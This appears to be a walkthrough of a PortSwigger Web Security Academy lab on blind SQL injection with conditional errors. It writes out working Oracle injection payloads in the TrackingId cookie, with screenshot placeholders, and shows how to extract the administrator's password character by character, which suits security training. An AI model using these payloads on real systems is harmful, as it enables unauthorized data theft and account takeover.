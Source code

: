 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
## Task
This lab has a blind SQL injection vulnerability. The application uses cookies for analytics and executes a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond to changes if the query returns rows. However, if the query fails, the application returns a custom error message.

The database has a `users` table with `username` and `password` columns. You need to exploit a blind SQL injection vulnerability to find out the password of the admin user.

You need to log in as the admin user to solve the lab.
## Solution
Go to the website page
![[Pasted image 20241203170607.png]]
Intercept the main page request in `Burp Suite` and send it to `Repeater`
![[Pasted image 20241222182305.png]]
Add `'` to `TrackingId` and look at the result
![[Pasted image 20241222182500.png]]
Add another `'` and look at the result
![[Pasted image 20241222182517.png]]
This indicates that the syntax error (in this case, the unclosed quote) has a noticeable impact on the response.
Now we need to confirm that the server interprets the injection as a SQL query, i.e. that the error is a SQL syntax error and not some other error. To do this, you first need to build a subquery using correct SQL syntax. Let's try sending:
```SQL
TrackingId=xyz'||(SELECT '')||'
```
![[Pasted image 20241222182544.png]]
In this case, it's worth noting that the query still appears to be invalid. This may be due to the type of database - try specifying a predictable table name in the query.
```SQL
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
![[Pasted image 20241222182613.png]]
Since the error is no longer returned, this indicates that you are probably using an `Oracle` database, which requires an explicit table name in every `SELECT` query.
Now that we have created a query that looks valid, let's try sending an invalid query while maintaining the correct SQL syntax. For example, let's try querying a non-existent table name:
```SQL
'||(SELECT '' FROM not-a-real-table)||'
```
![[Pasted image 20241222182654.png]]
This time, an error will be returned. This behavior strongly suggests that our injection is being processed as a SQL query on the server side.
As long as we always inject syntactically correct SQL queries, we can use this error response to get key information about the database. For example, to check if the `users` table exists, we send the following query:
```SQL
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
![[Pasted image 20241222182744.png]]
Since this query does not raise an error, we can conclude that the table exists. Note that the `WHERE ROWNUM = 1` condition is important here so that the query does not return more than one row, which would break our concatenation.
Now let's try using conditions:
```SQL
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
![[Pasted image 20241222182817.png]]
We see an error. Let's try another condition:
```SQL
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
![[Pasted image 20241222182905.png]]
There is no error. This demonstrates that you can trigger an error conditionally, depending on the truth of a specific condition. The `CASE` operator tests a condition and returns one expression if the condition is true, and another expression if it is false. The first expression contains a divide by zero operation, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and the error occurs when the condition is true.
Using this, we can check if the user `administrator` is in the `users` table
```SQL
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
![[Pasted image 20241222182953.png]]
An error occurred. This means that the user `administrator` is in the `users` table
Now let's check the length of this user's password
```SQL
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
![[Pasted image 20241222183059.png]]
An error occurs. So the password is longer than one character. Continue until the error disappears.
```SQL
'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
![[Pasted image 20241222183119.png]]
There are `20` characters in the password. Now we will iterate over the characters of the password
```SQL
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Send a request with this injection to `Intruder`
![[Pasted image 20241222183931.png]]
In the `Payloads` tab, select `Simple list` and in `Payload settings [Simple list]` add characters from the `a-z` and `0-9` lists. After that, launch the attack.
![[Pasted image 20241222184116.png]]
You need to find the request with the 500 error. In this case, it is the `2` character. Let's move on to the next character.
```SQL
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
![[Pasted image 20241222184242.png]]
![[Pasted image 20241222184321.png]]
The second character of the password is `r`. We do the same with the remaining characters, of which there are 20.
Final password:
```Password
2r5nrkmpvw745gqeb6ms
```
Log in as `administrator` and change the email
![[Pasted image 20241222184831.png]]
